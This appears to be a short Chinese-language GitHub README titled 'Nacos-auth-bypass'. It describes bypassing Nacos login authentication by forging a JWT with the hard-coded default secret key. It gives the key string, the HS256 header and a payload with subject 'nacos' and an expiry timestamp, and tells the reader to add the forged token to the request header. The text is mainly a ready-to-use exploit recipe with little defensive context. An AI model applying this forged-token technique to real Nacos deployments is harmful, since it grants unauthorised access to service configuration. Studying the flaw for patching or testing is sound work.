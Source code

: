 # Nacos-auth-bypass

Nacos 身份认证绕过

由补丁可知：
nacos.core.auth.plugin.nacos.token.secret.key=SecretKey012345678901234567890123456789012345678901234567890123456789

JWT构成：base64编码的header.base64编码的payload+hmac(f(header,payload,key))
参考https://blog.csdn.net/weixin_45839321/article/details/108935762

由于key硬编码，因此可以根据header+payload构造hmac  通过签名认证
header：
{
  "alg": "HS256"
}

payload：
{
  "sub": "nacos",
  "exp": 1678806359   //这里是时间戳
}

key=SecretKey012345678901234567890123456789012345678901234567890123456789
据此构造json web token 添加到请求头   即可绕过登录认证

![image](https://user-images.githubusercontent.com/55875284/224986445-1d78e6c9-ae8b-4f3f-9b73-0e1e82babd86.png)
